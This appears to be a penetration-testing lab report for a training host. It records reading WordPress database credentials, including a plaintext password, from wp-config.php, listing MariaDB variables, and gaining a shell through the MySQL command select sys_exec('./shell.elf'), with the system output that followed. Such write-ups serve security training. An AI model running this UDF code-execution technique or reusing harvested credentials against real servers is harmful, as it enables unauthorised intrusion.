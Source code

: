 **Database infos**  
  - Extension	mysqli
  - Server version	10.3.20-MariaDB
  - Client version	mysqlnd 5.0.12-dev - 20150407 - $Id: b5c5906d452ec590732a93b051f3827e02749b83 $
  - Database user	**wp**
  - Database host	**10.5.5.11**

**Vulnerability Explanation:**
Enum in in 10.11.1.250
**Vulnerability Fix:**
NULL
**Severity:**
NULL
**Proof of Concept Code Here:**
- In 10.11.1.250, run `cat wp-config.php`

**Local.txt Proof Screenshot**

**Local.txt Contents**
- wp-config.php: found DB **username** and **passwd**.
    ```
    // ** MySQL settings - You can get this info from your web host ** //
    /** The name of the database for WordPress */
    define( 'DB_NAME', 'wordpress' );

    /** MySQL database username */
    define( 'DB_USER', 'wp' );

    /** MySQL database password */
    define( 'DB_PASSWORD', 'Lv9EVQq86cfi8ioWsqFUQyU' );

    /** MySQL hostname */
    define( 'DB_HOST', '10.5.5.11' );
    ```

- DB: show variables;
  - `cat ./tmp/mysql-show-variables.txt| grep dir`
    - hostname **zora** 
    - basedir	**/usr**
    - character_sets_dir	**/usr/share/mariadb/charsets/**
    - datadir	**/var/lib/mysql/**
    - plugin_dir	**/home/dev/plugin/**
    - slave_load_tmpdir	**/var/tmp**
    - wsrep_data_home_dir	**/var/lib/mysql/**
  - `cat ./tmp/mysql-show-variables.txt| grep version`
    - innodb_version	10.3.20
    - version	10.3.20-MariaDB
    - version_comment	MariaDB Server
    - version_compile_machine	x86_64
    - version_ssl_library	OpenSSL 1.1.1d  10 Sep 2019
    - wsrep_patch_version	wsrep_25.24

- shell via mysql db `select sys_exec('./shell.elf');`
```
uname -a
Linux zora 4.19.78-0-virt #1-Alpine SMP Thu Oct 10 15:25:30 UTC 2019 x86_64 Linux

cat /etc/alpine-release
3.10.2

cat /proc/version
Linux version 4.19.78-0-virt (buildozer@build-3-10-x86_64) (gcc version 8.3.0 (Alpine 8.3.0)) #1-Alpine SMP Thu Oct 10 15:25:30 UTC 2019

env
USER=mysql
SHLVL=1
```